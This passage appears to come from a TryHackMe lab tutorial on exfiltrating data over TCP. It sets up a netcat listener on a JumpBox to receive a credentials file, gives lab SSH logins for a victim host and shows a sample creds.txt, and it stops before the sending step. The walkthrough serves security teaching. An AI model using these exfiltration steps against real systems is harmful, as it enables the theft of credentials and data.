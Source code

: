 First, we need to prepare a listener on the JumpBox on a port you specify. In our case, we choose port 8080.

```
Listening on port TCP/8080 in the JumpBox

           
			
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)

	    
```

From the previous command, we used the nc command to receive data on port 8080. Then, once we receive the data, we store it in the /tmp/ directory and call it task4-creds.data as a filename.

Now let's connect to our victim machine that contains the data that needs to be transmitted using the following credential: thm:tryhackme. Note that to connect to the victim1 from the JumpBox, we can use the internal domain name as follows,

```
Connect to the victim from the JumpBox

           
			
thm@jump-box$ ssh thm@victim1.thm.com

	    
```

We can also connect directly from the AttackBox using port 2022 as follows,

```
Connect to the victim from the AttackBox

           
			
root@AttackBox$ ssh thm@10.10.20.177 -p 2022

	    
```

We have the required data ready to be transmitted on the victim machine. In this case, we have a sample file with a couple of credentials.

```

Checking the creds.txt file on the victim machine

           
			
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor

	    
```
